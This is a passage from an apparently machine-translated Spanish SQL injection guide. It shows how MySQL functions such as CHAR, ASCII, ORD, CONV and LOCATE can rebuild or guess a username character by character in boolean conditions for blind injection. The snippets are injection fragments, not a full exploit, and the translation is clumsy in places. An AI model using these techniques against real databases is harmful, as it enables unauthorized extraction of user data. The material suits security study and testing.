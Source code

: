CHAR También se puede utilizar:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_char

SUBSTR(USERNAME,1,1)=CHAR(72)
SUBSTR(USERNAME,1,2)=CHAR(72,69)
...
SUBSTR(USERNAME,1,1)=CONCAT(CHAR(72),CHAR(69))
```

ASCII and ORD: funciones gemelas:

```bash
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_ascii
- http://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_ord

ASCII(SUBSTR(USERNAME,1,1))=48
ORD(SUBSTR(USERNAME,1,1))=48
```

CONV: mySQL ofrece un método interesante para devolver la representación en cadena de un número de dos bases

* http://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function\_conv

> La base más alta que podemos utilizar es 36

No podemos usar Personajes de **unicode**; sin embargo, al menos podemos generar una cadena de a-zA-Z0-9:

```bash
CONV(10,10,36) //'a'
CONV(11,10,36) //'b'
```

Podemos mezclar los resultados con las funciones **upper** y \*\* inferior\*\* para recuperar la representación respectiva:

```bash
LOWER(CONV(10,10,36)) #'a'
LCASE(CONV(10,10,36)) #'a'
UPPER(CONV(10,10,36)) #'A'
UCASE(CONV(10,10,36)) #'A'
...
```

### Brute-force Strings

```bash
- LOCATE
- INSTR
- POSITION
```

Si u no puede construir una cadena, u puede tratar de localizar un segmento o una cadena entera usando funciones que devuelen la posición de la primera ocurrencia de subcadenaciones, y luego utilizar declaraciones condicionales Para la condición booleana.
